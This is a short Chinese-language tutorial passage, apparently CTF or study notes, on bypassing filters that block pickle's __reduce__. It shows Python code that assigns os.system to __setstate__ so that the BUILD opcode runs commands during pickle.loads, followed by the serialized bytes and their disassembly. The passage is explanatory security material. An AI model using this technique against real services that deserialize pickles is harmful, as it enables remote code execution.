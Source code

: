 ## 过滤__reduce__方法利用2

注意到操作符b：`BUILD = b'b' # call __setstate__ or __dict__.update()`
`__setstate__`使用demo：

```python
class noreduce:
    def __setstate__(self, test):
        print(test)

    def __init__(self):
        self.name = "aaaaa"
        self.age = 25


obj = noreduce()
picdata = pickletools.optimize(pickle.dumps(obj))
pickletools.dis(picdata)
objr = pickle.loads(picdata)
objr.__setstate__("dddddd")
```

利用方法：

```python
class noreduce:

    def __init__(self):
        self.name = "aaaaa"
        self.age = 25
        self.__setstate__ = os.system


obj = noreduce()
picdata = pickletools.optimize(pickle.dumps(obj))
print(picdata)
pickletools.dis(picdata)
objr = pickle.loads(picdata)
```

输出：

```python
b'\x80\x04\x95K\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x8c\x08noreduce\x93)\x81}(\x8c\x04name\x8c\x05aaaaa\x8c\x03ageK\x19\x8c\x0c__setstate__\x8c\x02nt\x8c\x06system\x93ub.'
    0: \x80 PROTO      4
    2: \x95 FRAME      75
   11: \x8c SHORT_BINUNICODE '__main__'
   21: \x8c SHORT_BINUNICODE 'noreduce'
   31: \x93 STACK_GLOBAL
   32: )    EMPTY_TUPLE
   33: \x81 NEWOBJ
   34: }    EMPTY_DICT
   35: (    MARK
   36: \x8c     SHORT_BINUNICODE 'name'
   42: \x8c     SHORT_BINUNICODE 'aaaaa'
   49: \x8c     SHORT_BINUNICODE 'age'
   54: K        BININT1    25
   56: \x8c     SHORT_BINUNICODE '__setstate__'
   70: \x8c     SHORT_BINUNICODE 'nt'
   74: \x8c     SHORT_BINUNICODE 'system'
   82: \x93     STACK_GLOBAL
   83: u        SETITEMS   (MARK at 35)
   84: b    BUILD
   85: .    STOP
highest protocol among opcodes = 4
```